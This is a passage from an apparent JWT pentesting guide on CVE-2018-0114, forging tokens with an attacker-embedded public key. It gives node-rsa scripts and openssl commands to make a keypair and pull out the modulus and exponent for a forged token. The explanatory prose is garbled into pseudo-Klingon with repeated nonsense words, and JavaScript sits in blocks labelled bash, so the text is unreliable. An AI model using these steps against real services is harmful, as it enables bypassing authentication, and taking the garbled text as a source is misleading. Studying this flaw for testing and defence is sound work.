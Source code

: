 Using the following nodejs script it's possible to generate a public key from that data:

### qarDaq QaD (CVE-2018-0114)

jwt DaH jatlh public key embedded vaj scenario vay':

![](<../.gitbook/assets/image (438).png>)

nodejs script vaj public key generate laH:
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```
**Klingon Translation:**

**Qapla'!** yIqImuSmoHlaHbe' 'ej yIqImuSmoHlaHbe' 'e' vItlhutlh. **yIqImuSmoHlaHbe'** token vItlhutlh public key, token vItlhutlh public key **yIqImuSmoHlaHbe'** 'ej **yIqImuSmoHlaHbe'** signature vItlhutlh.
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
ghItlh "n" je "e" ghaH je nodejs script vItlhutlh.
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
keyPair = fs.readFileSync("keypair.pem");
const key = new NodeRSA(keyPair);
const publicComponents = key.exportKey('components-public');
console.log('Parameter n: ', publicComponents.n.toString("hex"));
console.log('Parameter e: ', publicComponents.e.toString(16));
```
### JTI (JWT ID)
